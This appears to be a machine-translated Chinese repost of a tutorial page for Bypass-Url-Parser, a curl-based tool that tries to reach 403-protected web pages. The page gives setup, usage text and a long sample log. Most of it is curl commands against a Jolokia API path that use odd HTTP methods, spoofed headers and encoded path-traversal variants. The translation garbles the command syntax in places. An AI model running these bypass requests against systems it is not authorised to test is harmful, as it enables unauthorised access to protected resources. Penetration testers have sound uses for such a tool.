

# Bypass-Url-Parser:测试许多 Url 旁路以达到 40 倍保护页面的工具

> 原文：<https://kalilinuxtutorials.com/bypass-url-parser/>

**Bypass-Url-Parser** 是一个测试`**MANY**` url 绕过到达`**40X protected page**`的工具。

如果你想知道为什么这个代码是`**nothing but a dirty curl wrapper**`，这里是原因:

*   大多数 python 请求都做 URL/路径/参数编码/解码，我讨厌这样。
*   如果我提交原始字符，我希望原始字符被发送。
*   如果我发送一个奇怪的路径，我希望它是奇怪的，而不是正常的。

这是在 python 中实现的，而不会失去所有的 lib 优点，如解析、ssl/tls 封装等等。
所以，像我一样，使用`**curl as a backend**`，它会很好。

## bypass . py 的设置

**Deps
sudo apt install-y bat curl virtualenv python 3
工具
virtualenv-p python 3 . py3
source . py3/bin/activate
pip install-r requirements . txt
。/bypass-URL-parser . py–URL " http://127 . 0 . 0 . 1/juicy _ 403 _ endpoint/"**

## 使用

**Bypass Url 解析器，由@TheLaluka 用爱做成
一个测试很多 Url 旁路达到 40 倍保护页面的工具。
用法:
。/bypass-URL-parser . py–URL =[–outdir =][–threads =][–time out =][(–header =)……][–spoofip =][–debug]
。/bypass-URL-parser . py(-h |–help)
。/bypass-URL-parser . py(-v |–version)
选项:
-h–help 显示帮助，你在这里🙂
-v–版本显示版本信息。
–url =运行旁路的 URL(路径可选)。
–outdir =结果的输出目录。
–超时= N 秒后请求超时【默认值:3】。
–threads =用 N 个并行线程扫描[默认值:1]。
–Header =要使用的标题，格式:“Cookie: can_i_haz=fire”。
–spoof ip = IP 以注入 IP 特定的报头。
–Debug 启用调试输出，以… Tou 了解… Debug。
举例:
。/bypass-URL-parser . py–URL " http://127 . 0 . 0 . 1/juicy _ 403 _ endpoint/"–欺骗 IP 8.8.8.8–调试
。/bypass-URL-parser . py–URL " http://127 . 0 . 0 . 1/juicy _ 403 _ endpoint/"–threads 30–time out 5–header " Cookie:me _ iz = damin”-header " Waf:bypazzzzz "**

## 预期结果

**2022-05-10 15:54:03 work bup[738125] INFO === Config ===
2022-05-10 15:54:03 work bup[738125] INFO debug: False
2022-05-10 15:54:03 work bup[738125] INFO url: http://thinkloveshare.com/api/jolokia/list
2022-05-10 15:54:03 work bup[738125] INFO outdir: /tmp/tmp48drf_ie-bypass-url-parser
2022-05-10 15:54:03 work bup[738125] INFO threads: 20
2022-05-10 15:54:03 work bup[738125] INFO timeout: 2
2022-05-10 15:54:03 work bup[738125] INFO headers: {}
2022-05-10 15:54:03 work bup[738125] WARNING Stage: generate_curls
2022-05-10 15:54:03 work bup[738125] INFO base_url: http://thinkloveshare.com
2022-05-10 15:54:03 work bup[738125] INFO base_path: /api/jolokia/list
2022-05-10 15:54:03 work bup[738125] WARNING Stage: run_curls
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘CONNECT’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘GET’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘LOCK’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘OPTIONS’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘PATCH’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘POST’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘POUET’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘PUT’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘TRACE’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘TRACK’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -X ‘UPDATE’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -H ‘Access-Control-Allow-Origin: 0.0.0.0’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -H ‘Access-Control-Allow-Origin: 127.0.0.1’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -H ‘Access-Control-Allow-Origin: localhost’ ‘http://thinkloveshare.com/api/jolokia/list’
2022-05-10 15:54:03 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ -H ‘Access-Control-Allow-Origin: norealhost’ ‘http://thinkloveshare.com/api/jolokia/list’
[…]
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%252f%252f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%26//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2e//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2e%2e//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2e%2e///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2e%2e%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%20%23//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%23//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3b%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3b%2f%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%2f%3f///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/..//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b//%2f..///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/%2e.//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/%2e%2e/..%2f%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b/%2f%2f..///list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%09//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f..//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f%2e.//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f%2e%2e//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3b%2f%2e%2e%2f%2e%2e%2f%2f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3f//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3f%23//list’
2022-05-10 15:54:09 work bup[738125] INFO Current: curl -sS -kgi –path-as-is -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36’ -w ‘\nStatus: %{http_code}, Length: %{size_download}’ ‘http://thinkloveshare.com//api/jolokia//%3f%3f//list’
2022-05-10 15:54:09 work bup[738125] WARNING Stage: save_and_quit
2022-05-10 15:54:10 work bup[738125] INFO Saving html pages and short output in: /tmp/tmp48drf_ie-bypass-url-parser
2022-05-10 15:54:10 work bup[738125] INFO Triaged results shows the following distinct pages:
9: 41 – 850a2bd214c68f582aaac1c84c702b5d.html
10: 97 – 219145da181c48fea603aab3097d8201.html
10: 99 – 309b8397d07f618ec07541c418979a84.html
10: 100 – 9a1304f66bfee2130b34258635d50171.html
10: 108 – b61052875693afa4b86d39321d4170b4.html
10: 109 – 6fb5c59f5c29d23e407d6f041523a2bb.html
11: 101 – 045d36e3cfba7f6cbb7e657fc6cf1125.html
12:43116 – 9787a734c56b37f7bf5d78aaee43c55d.html
16: 41 – c5663aedf1036c950a5d83bd83c8e4e7.html
21: 156 – 7857d3d4a9bc8bf69278bf43c4918909.html
22: 107 – 011ca570bdf2e5babcf4f99c4cd84126.html
22: 109 – 6d4b61258386f744a388d402a5f11d03.html
22: 110 – 2f26cd3ba49e023dbda4453e5fd89431.html
76: 821 – bfe5f92861f949e44b355ee22574194a.html
2022-05-10 15:54:10 work bup[738125] INFO Also, inspect them manually with batcat:
echo /tmp/tmp48drf_ie-bypass-url-parser/{850a2bd214c68f582aaac1c84c702b5d.html,219145da181c48fea603aab3097d8201.html,309b8397d07f618ec07541c418979a84.html,9a1304f66bfee2130b34258635d50171.html,b61052875693afa4b86d39321d4170b4.html,6fb5c59f5c29d23e407d6f041523a2bb.html,045d36e3cfba7f6cbb7e657fc6cf1125.html,9787a734c56b37f7bf5d78aaee43c55d.html,c5663aedf1036c950a5d83bd83c8e4e7.html,7857d3d4a9bc8bf69278bf43c4918909.html,011ca570bdf2e5babcf4f99c4cd84126.html,6d4b61258386f744a388d402a5f11d03.html,2f26cd3ba49e023dbda4453e5fd89431.html,bfe5f92861f949e44b355ee22574194a.html} | xargs bat**

[**Download**](https://github.com/laluka/bypass-url-parser)